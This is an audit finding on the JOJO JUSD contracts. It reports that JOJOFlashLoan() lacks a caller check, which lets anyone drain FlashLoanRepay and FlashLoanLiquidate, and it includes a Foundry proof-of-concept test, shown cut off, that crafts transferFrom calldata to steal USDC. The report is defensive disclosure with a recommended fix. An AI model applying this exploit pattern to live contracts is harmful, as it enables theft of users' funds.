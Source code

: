 ashirleyshe

high

# FlashLoanLiquidate and FlashLoanRepay contract can be drained by abusing the JOJOFlashLoan()

## Summary

The attacker can abuse the `JOJOFlashLoan()` to drain the assets in `FlashLoanLiquidate.sol` and `FlashLoanRepay.sol`.

## Vulnerability Detail

```solidity
    function JOJOFlashLoan(
        address asset,
        uint256 amount,
        address to,
        bytes calldata param
    ) external {
        //swapContract swap
        (LiquidateData memory liquidateData, bytes memory originParam) = abi
            .decode(param, (LiquidateData, bytes));
        (
            address approveTarget,
            address swapTarget,
            address liquidator,
            bytes memory data
        ) = abi.decode(originParam, (address, address, address, bytes));
        IERC20(asset).approve(approveTarget, amount);
        (bool success, ) = swapTarget.call(data);
        if (success == false) {
            assembly {
                let ptr := mload(0x40)
                let size := returndatasize()
                returndatacopy(ptr, 0, size)
                revert(ptr, size)
            }
        }

        ...
```
The JOJOFlashLoan function in both FlashLoanLiquidate.sol and FlashLoanRepay.sol files lacks proper validation, as it does not verify whether the caller is JUSDBank.sol. Due to the function's external visibility and absence of input checks, it is vulnerable to arbitrary inputs.

This vulnerability can be exploited by an attacker who can steal assets from the contract by carefully constructing the necessary parameters. The contract approves an arbitrary amount of assets to be transferred to the approveTarget. In the next line, a call is made, allowing the attacker to strategically craft the swapTarget and data values. By doing this, the attacker can first approve a large amount of assets to be transferred to their address and then execute the transfer, effectively stealing the assets from the contract.

Here is a PoC test case:
```diff
diff --git a/JUSDV1/test/Impl/JUSDBankFlashloan.t.sol b/JUSDV1/test/Impl/JUSDBankFlashloan.t.sol
index b326701..be28592 100644
--- a/JUSDV1/test/Impl/JUSDBankFlashloan.t.sol
+++ b/JUSDV1/test/Impl/JUSDBankFlashloan.t.sol
@@ -298,4 +298,38 @@ contract JUSDBankFlashloanTest is JUSDBankInitTest {
         );
         vm.stopPrank();
     }
+
+    function testJOJOFlashLoan() public {
+        MockERC20 usdc = new MockERC20(4000e18);
+        JUSDExchange jusdExchange = new JUSDExchange(
+            address(usdc),
+            address(jusd)
+        );
+        jusd.mint(5000e6);
+        IERC20(jusd).transfer(address(jusdExchange), 5000e6);
+        FlashLoanRepay flashloanRepay = new FlashLoanRepay(
+            address(jusdBank),
+            address(jusdExchange),
+            address(usdc),
+            address(jusd)
+        );
+        uint256 amount = 1000e18;
+        IERC20(usdc).transfer(address(flashloanRepay), amount);
+        mockToken1.transfer(alice, 5e18);
+        vm.startPrank(alice);
+        assertEq(IERC20(usdc).balanceOf(alice), 0);
+        mockToken1.approve(address(jusdBank), 1e18);
+        jusdBank.deposit(alice, address(mockToken1), 1e18, alice);
+        jusdBank.borrow(1e6, alice, false);
+        bytes memory inner_data = abi.encodeWithSignature("transferFrom(address,address,uint256)", address(flashloanRepay), address(alice), 999e18);
+        bytes memory data = abi.encode(address(flashloanRepay), address(usdc), 0, inner_data);
+        flashloanRepay.JOJOFlashLoan(
+            address(usdc),
+            amount,
+            address(alice),
+            data
+        );
```

## Impact

The attacker can drain the assets from FlashLoanLiquidate and FlashLoanRepay contract.

## Code Snippet

https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/flashloanImpl/FlashLoanLiquidate.sol#L53-L62
https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/flashloanImpl/FlashLoanRepay.sol#L41-L44

## Tool used

Manual Review

## Recommendation

Check the `msg.sender` is JUSDBank in `JOJOFlashLoan()`.
